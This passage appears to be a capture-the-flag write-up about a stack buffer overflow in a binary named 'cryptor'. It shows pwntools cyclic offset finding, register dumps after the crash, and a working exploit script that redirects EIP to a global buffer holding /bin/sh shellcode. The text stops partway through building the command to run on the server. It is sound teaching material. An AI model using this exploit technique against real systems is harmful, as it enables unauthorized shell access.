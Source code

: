 Awesome, so we have a crash at offset `zaab` in our `cyclic` string. Let's create another cyclic string replacing the `zaab` to know that we have surgical control of EIP.

```
>>> shellcode = 'A' * cyclic_find('zaab') + 'BBBB'
>>> shellcode += 'C' * (116 - len(shellcode))
>>> print shellcode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCC
```

```
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[-------------------------------------REGISTERS-------------------------------------]
*EAX  0x0
*EBX  0x43434343 ('CCCC')
*ECX  0x0
*EDX  0x0
*EDI  0x636e652e ('.enc')
*ESI  0x0
*EBP  0x41414141 ('AAAA')
*ESP  0xffffcb08 <-- 'CCCC'
*EIP  0x42424242 ('BBBB')
[-------------------------------------BACKTRACE-------------------------------------]
>  f 0 42424242
>  f 1 43434343
>  f 2        0
>   Program received signal SIGSEGV
```

We also notice that the second argument is stored in a global array found at `0x804a080`. If we dump shellcode in that 

Our plan of attack here is as follows:

* Overwrite the return address `BBBB` with `0x804a080`
* Drop `/bin/sh` shellcode in the second argument in order to gain a shell

Our resulting testing script is below:

```python
from pwn import * # pip install --upgrade git+https://github.com/binjitsu/binjitsu.git

shellcode = 'A' * cyclic_find('zaab') + p32(0x804a080)
shellcode += 'C' * (116 - len(shellcode))

r = process(['./cryptor', shellcode, asm(shellcraft.sh())])

r.interactive()
```

Now we have to execute this command on the server. In order to do this, we create the command in the script, then send the command from the script. The process is shown below:

```python
offset = cyclic_find('zaab')
buffer = 116 - len(shellcode)

# Yay easy /bin/sh shells
binsh_shellcode = asm(shellcraft.sh())

# Build argv1
argv1 = '"A" * {} + "{}" + "C" * {}'.format(offset, r'\x80\xa0\x04\x08', buffer)

# Build argv2
argv2 = ''.join('\\x{}'.format(enhex(binsh_shellcode)[x:x+2]) for x in xrange(0, len(enhex(binsh_shellcode)), 2))

# Final command
```
